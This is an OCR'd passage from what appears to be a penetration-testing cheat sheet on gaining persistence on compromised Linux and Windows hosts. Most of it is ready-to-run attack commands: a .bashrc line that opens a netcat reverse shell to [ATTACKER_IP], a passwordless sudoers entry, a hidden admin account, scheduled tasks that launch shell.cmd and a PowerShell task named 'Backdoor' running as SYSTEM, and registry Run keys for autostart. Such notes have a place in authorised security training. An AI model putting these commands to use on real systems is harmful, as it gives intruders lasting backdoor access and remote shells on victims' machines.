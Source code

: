                 -   \[Install\]

                -   WantedBy=multi-user.target

            -   Enable service

                -   sudo systemctl daemon-reload

                -   sudo systemctl enable test

                -   sudo systemctl start test

                -   sudo systemctl status test

        -   **Edit the ./bash\_rc   \| ./bash\_profile**

            -     echo \'nc -e /bin/bash \[ATTACKER\_IP\] \[PORT\] 2\>/dev/null &\' \>\> \~/.bashrc

        -   **Add a new user and add him to sudoers**

            -   \[USER\] ALL=(ALL) NOPASSWD: ALL

    -   **Windows**

        -   **Add a new user**

            -   net user new \*/add    make a new user

            -   net localgroup administrators new /add  //add that user to admin group

        -   **scheduled tasks** (such as [at] and [schtasks], along with the Windows Task Scheduler)

            -   schtasks /create /sc minute /mo 1 /tn \"name\" /tr C:\\tools\\shell.cmd /ru \"SYSTEM\"      // Creating a new scheduled task that will launch shell.cmd every minute

            -   schtasks /create /tn \"taskname\" /tr C:\\Users\\Public\\test.exe /sc ONLOGON /ru \"System\"     //Creating a new scheduled task that will launch test.exe every logon

            -   **powershell method**

                -    PS C:\\\> \$A = New-ScheduledTaskAction -Execute \"cmd.exe\" -Argument \"/c C:\\Users\\Rasta\\AppData\\Local\\Temp\\backdoor.exe\"

                -   PS C:\\\> \$T = New-ScheduledTaskTrigger -AtLogOn -User \"anyuser\"

                -    PS C:\\\> \$P = New-ScheduledTaskPrincipal \"anyuser\"

                -    PS C:\\\> \$S = New-ScheduledTaskSettingsSet

                -   PS C:\\\> \$D = New-ScheduledTask -Action \$A -Trigger \$T -Principal \$P -Settings \$S

                -   PS C:\\\> Register-ScheduledTask Backdoor -InputObject \$D

        -   **Add Entry to Registry startup**
            > makes the program to run every time the user logon

            -   **The keys used by the malware to gain persistence at user level**

                -   \"HKCU \\Software\\Microsoft\\Windows\\CurrentVersion\\Run\"

                -   \"HKCU \\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce\" 

                -   \"HKCU \\Software\\Microsoft\\Windows\\CurrentVersion\\RunServices\"

                -   \"HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunServicesonce\"

